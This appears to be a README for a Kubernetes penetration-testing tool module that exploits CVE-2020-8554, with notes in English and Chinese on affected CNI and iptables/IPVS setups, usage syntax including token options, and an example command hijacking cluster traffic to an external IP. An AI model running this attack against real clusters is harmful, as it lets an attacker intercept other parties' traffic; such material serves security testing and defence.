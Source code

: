 # Exploit: k8s-mitm-clusterip

Exploit CVE-2020-8554: Man in the middle using ExternalIPs. It allows an attacker to intercept traffic that was intended for an external dependency.

K8s中间人攻击(CVE-2020-8554)

注经测试并于K8S官方确认，该漏洞只影响部分CNI插件和网络模式，以下为测试成功的场景：
1. 部分CNI + Iptables 可劫持 POD network
2. 部分CNI + IPVS 可劫持 可劫持 NODE network
3. Global Router + IPVS 可劫持 可劫持 NODE network

因此在 minikube 里可能无法复现。

See more in https://unit42.paloaltonetworks.com/cve-2020-8554/

## Usage

First it will deploy `<image>` in cluster, then create a service to hijack cluster traffic intended to send to remote <ip>:<port>

```
cdk run k8s-mitm-clusterip (default|anonymous|<service-account-token-path>) <image> <ip> <port>

Request Options:
default: connect API server with pod's default service account token
anonymous: connect API server with user system:anonymous
<service-account-token-path>: connect API server with user-specified service account token.

Exploit Options:
image: target image to MITM hijack.
ip: target remote IP to hijack traffic.
port: target remote PORT to hijack traffic.
```

## Example

deploy image ubuntu in the cluster to hijack outgoing traffic towards 9.9.9.9:80  
  
```
./cdk run k8s-mitm-clusterip default ubuntu 9.9.9.9 80
```

![](https://static.cdxy.me/cuimage/20210116190622_Trmkxv_Screenshot.jpeg)


